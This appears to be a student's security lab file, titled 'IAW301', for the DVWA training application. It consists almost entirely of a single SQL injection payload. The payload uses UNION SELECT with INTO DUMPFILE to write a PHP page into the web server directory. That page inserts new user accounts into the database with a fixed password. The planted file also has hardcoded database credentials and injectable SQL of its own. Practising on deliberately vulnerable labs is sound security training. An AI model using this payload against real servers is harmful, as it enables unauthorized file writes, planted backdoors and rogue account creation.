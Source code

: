 # IAW301
' union select null,'<?php if(isset($_POST["submit"])) { $userID = $_POST["userID"]; $first_name = $_POST["first_name"]; $last_name = $_POST["last_name"]; $username = $_POST["username"]; $avatar = $_POST["avatar"]; echo "userID: $userID<BR>"; echo "first_name: $first_name<BR>"; echo "last_name: $last_name<BR>"; echo "username: $username<BR>"; echo "avatar: $avatar<BR>"; $con=mysqli_connect("127.0.0.1","minhlqhe140825","bnm123456","dvwa"); if (mysqli_connect_errno()) { echo "Failed to connect to MySQL: " . mysqli_connect_error(); } else { echo "Connected to database<BR>"; } $password = "abc123"; $sql="insert into dvwa.users values (\\"$userID\\",\\"$first_name\\",\\"$last_name\\",\\"$username\\",MD5(\\"$password\\"),\\"$avatar\\")"; if (mysqli_query($con,$sql)) { echo "[Successful Insertion]: $sql"; } else { echo "Error creating database: " . mysqli_error($con); } mysqli_close($con); } ?> <form method="post" action="<?php echo $_SERVER["PHP_SELF"]; ?>"> <input type="text" name="userID" value="33"><br> <input type="text" name="first_name" value="John"><br> <input type="text" name="last_name" value="Gray"><br> <input type="text" name="username" value="jgray"><br> <input type="text" name="avatar" value="Just Hack It!"><br> <input type="submit" name="submit" value="Submit Form"><br> </form>' INTO DUMPFILE '/var/www/html/dvwa/create_user.php' -- -
